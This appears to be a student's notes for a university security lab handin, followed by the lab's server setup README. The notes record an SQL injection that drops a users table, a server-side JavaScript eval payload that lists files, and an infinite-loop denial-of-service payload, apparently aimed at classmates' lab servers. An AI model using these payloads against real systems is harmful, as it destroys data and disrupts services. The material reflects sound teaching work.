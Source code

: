 #Notes For Lab Handin

 #Lab 8
 
 ##ATTACK 1:
 
 Attacked http://ec2-52-90-199-138.compute-1.amazonaws.com:8080 - Yusuf, John, Brian by changing username
 
 Oops.. 
 Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'DROP TABLE users;"'' at line 1
 
 Attack Method: "'; DROP TABLE users;"
 
 Resolution:
 
 Preventing server side javascript injection attacks should be done by validating user inputs on the server before processing.
 
 
 
 ##ATTACK 2:
 
 Attacked: http://ec2-18-219-228-255.us-east-2.compute.amazonaws.com:8080/login
 
 Attack: eval(res.end(require('fs').readdirSync('.').toString()))
 Oops.. 
 
 Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'fs').readdirSync('.').toString()))'' at line 1
 
 
 ##ATTACK 3:
 http://ec2-18-208-136-252.compute-1.amazonaws.com:8080/login
 
 Attack: setTimeout(while(1))












# security_lab
CS132 Spring 2019 Security Lab

## Phase 2: Configuration
Before reading this README, please make sure you've completed the instructions on Prelab 2 Phase 1. As a reminder, that phase introduced you to the VM where your application will be running on. It was also during that phase where you've forked this directory.

This part is very important, and you should do this portion of the lab carefully to ensure that your server will be running smoothly (until some other group attacks it of course!).

In particular, there are two files that you'll want to configure: _config.js_ and _./db/create.sql_. At this point, however, if you have not yet received an email from us about your _username_, _password_, _database_, and _port #_, then you should **stop** and make sure you've obtained these credentials. If you know these credentials, great! Let's start.

### Saving your Settings
In the event that your application has been hacked, you'll have to restart your application from scratch. If you don't want to go through the entire configuration process again, push all these changes to the forked repository. Then, whenever you've been attacked, restarting the application is a matter of just pulling from your git repo, and re-running the create.sql script.

### Running Your Application
1. Navigate back to the application project root.
2. Run
> npm install

   You might encounter some error messages by node, but for now let's ignore them. Check your node_modules directory, and if there are the following modules, you're set:

   * any-db
   * any-db-mysql  
   * body-parser  
   * consolidate
   * express  
   * express-session  
   * marked
   * morgan
   * serve-favicon
   * swig
   * underscore
3. Run
> node server.js

> chromium &

4. Navigate to 'localhost:PORT' where PORT is the port number you've configured previously.
